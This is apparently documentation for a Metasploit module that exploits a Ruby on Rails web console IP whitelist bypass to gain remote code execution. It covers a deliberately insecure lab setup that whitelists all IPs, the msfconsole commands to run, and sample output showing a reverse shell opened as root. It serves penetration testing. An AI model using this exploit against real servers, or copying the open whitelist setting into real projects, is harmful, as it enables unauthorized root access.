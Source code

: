 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps
**Prerequisites :**
```
$ gem install rails -v 4.2.6
$ rails new taco
$ cd taco
$ vim config/environments/development.rb
  Add the following line just before the final `end' tag:
  config.web_console.whitelisted_ips = %w(0.0.0.0/0)
$ bundle
$ rails server
```

**Installing nodejs :**
```
sudo apt-get install nodejs
```

**Launch msfconsole :**
1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output
```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
